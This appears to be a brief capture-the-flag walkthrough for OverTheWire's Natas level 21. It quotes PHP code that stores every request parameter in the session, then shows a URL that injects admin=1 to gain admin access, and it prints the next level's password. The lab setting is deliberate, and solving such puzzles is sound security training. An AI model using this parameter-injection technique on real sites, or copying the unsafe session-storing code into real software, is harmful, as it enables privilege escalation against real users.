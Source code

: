 http://natas21.natas.labs.overthewire.org
Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org
You are logged in as a regular user. Login as an admin to retrieve credentials for natas22. 

in experimenter tab:
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=true&admin=1

happens because it uses the same server

You are an admin. The credentials for the next level are:

Username: natas22
Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
